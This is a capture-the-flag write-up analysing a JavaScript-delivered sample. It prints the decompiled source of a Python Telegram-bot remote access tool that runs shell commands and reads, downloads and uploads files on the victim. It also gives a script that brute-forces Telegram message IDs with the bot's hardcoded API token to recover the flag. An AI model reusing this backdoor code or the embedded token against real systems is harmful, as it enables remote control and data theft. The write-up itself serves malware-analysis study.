 # Confusing Javascript

***

## Reference

{% embed url="https://zachwong02.github.io/post/malware-finds-a-way/" %}

***

## Solution

Given a javascript file.&#x20;

`eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators`



Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a[ github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon).&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the `taskmanager.exe` for further analysis.

Upon analysing the file using **strings** command suggest that the executable file was built using Python.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Decompile the executable to its source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) .

`python3 pyinstxtractor.py taskmanager.exe`

There a lot of files in the executable. The most interesting one is **PythonTelegramBot.pyc**

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```

Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot.&#x20;

The specific message stored by the bot needs to be forwarded using the `forwardMessage` Telegram API call method. With the **bot API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found



The API request should look like this:

`https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>`



Create a python script to brute force the **message id**.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```



Then, message ID number 173 was received, and the request now appears as follows:

{% embed url="https://api.telegram.org/bot6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY/forwardMessage?from_chat_id=6212716112&message_id=173&chat_id=6212716112" %}

The flag will be shown in a json format as below

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

ihack24{fr0m\_J4V45Cr1p7\_2\_73L39r4m}
